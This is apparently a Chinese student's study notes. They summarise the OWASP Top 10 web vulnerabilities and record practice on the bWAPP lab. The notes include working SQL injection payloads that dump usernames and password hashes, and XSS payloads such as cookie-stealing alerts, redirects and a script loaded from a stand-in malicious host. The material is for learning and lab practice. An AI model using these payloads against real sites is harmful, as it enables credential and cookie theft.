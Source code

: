 # 常见的web漏洞总结



***OWASP 的web漏洞top 10***

1. 注入

   > 在设计程序，忽略了对输入字符串中夹带的SQL指令的检查，被数据库误认为是正常的SQL指令而运行，从而使数据库受到攻击，可能导致数据被窃取、更改、删除

2. 失效的身份认证

   > 将恶意的未经身份验证的攻击者与授权用户进行分离。

   有多种原因造成身份验证方面的危险

   + 允许密码填充
   + 允许暴力破解
   + 允许弱密码
   + 使用明文、加密、弱散列密码

3. 敏感数据暴露

   > Web 应用和 API无法正确保护敏感信息

4. XML External Entities(XXE)

   > xml的解析器的不安全使用

5. 无效控制访问

   > 未对通过身份验证的用户实施恰当的访问控制。攻击者可以利用这些缺陷访问未经授权的功能或数据

6. 安全配置错误

   >  不安全的默认配置、不完整的临时配置、开源云存储、错误的 HTTP 标头配置以及包含敏感信息的详细错误信息所造成的

7. Cross-SiteScripting (XSS) 跨站脚本攻击

   >  网站未对用户上传字段进行检查，使攻击者可以上传恶意的代码，从而窃取用户的cookie等数据

8. 不安全的反序列化

   > 不安全的反序列化会导致远程代码执行。即使反序列化缺陷不会导致远程代码执行，攻击者也可以利用它们来执行攻击，包括：重播攻击、注入攻击和特权升级攻击。

9. 使用含有已知漏洞的组件

   > 组件（例如：库、框架和其他软件模块）拥有和应用程序相同的权限。如果应用程序中含有已知漏洞的组件被攻击者利用，可能会造成严重的数据丢失或服务器接管。同时，使用含有已知漏洞的组件的应用程序和API可能会破坏应用程序防御、造成各种攻击并产生严重影响。

10. 不足的记录&监控

    > 不足的日志记录和监控，以及事件响应缺失或无效的集成，使攻击者能够进一步攻击系统、保持持续性或转向更多系统，以及篡改、提取或销毁数据。

***



***靶场的练习***

​	在bwapp练习了一下手工注入，然后学习了骆佬发的B站教程，对sql数据库的结构有了更清晰的认识，对`database` `table` `colunm` 理解有了一定的加深，还学习了一些基础的数据库查询语句，以下记录一下手动注入(写报告的时候靶场好像关了)

injection的低等级漏洞，__search(GET)__的漏洞

1. 输入` 'or 1=1 #`得到所有回显

2. 试了试 union 联合注入，得到报错好像是列数不匹配,然后试出来2，3，5，7有回显`' and 1=2 union select 1,2,3,4,5,6,7 #`

3. 用user() database()函数看了看信息，用户是root`' and 1=2 union select 1,user(),3,database(),6,7 #`

4. 从information_schema库中获取表名users`' and 1=2 union select 1,2,3,table_schema,6,7 from  information_schema.tables #`

5. 获取列名login password

6. 最后payload为`' and 1=2 union select 1,login,3,4,password,6,7 from users #`

   得到了用户名和md5加密的密码

然后在8003端口试了试XSS，也是从教程视频中学到一些基础的概念，比如反射性漏洞和储存型漏洞，再比如如何手动构造XSS脚本，还有些基础知识

html标签

```
<iframe>	#创建包含另一个文档的内联框架
<textarea>	#标签定义多行的文本输入控件
<img>	#向网页嵌入一幅图像
<script> #定义客户端脚本，比如JavaScript
					既可包含脚本语句，也可以通过src指向外部脚本文件
					JavaScript的常应用于图像操作、表单验证、动态内容更新
```

js语句
```
alert
window.location
location.href
onload
onsubmit
onerror
```
1. 弹出窗口
```html
<script>alert('XSS')</script>
<script>alert(document.cookie)</script>
```
2. 页面嵌套
```html
<iframe src=http://www.example.com width=300 height=300></iframe>
```
3. 重新定向
```html
<script>alert("move to new site");location.href="http://www.baidu.com"</script>
```
4. 恶意代码
```html
<script src="http://www.cheat.com"></script>
```
5. 利用图片
`<img src="http://baidu.com"></img>`
6. 绕开过滤的方法：大小写混用、base64 url编码

最后还学习了一下自动化工具beef的使用




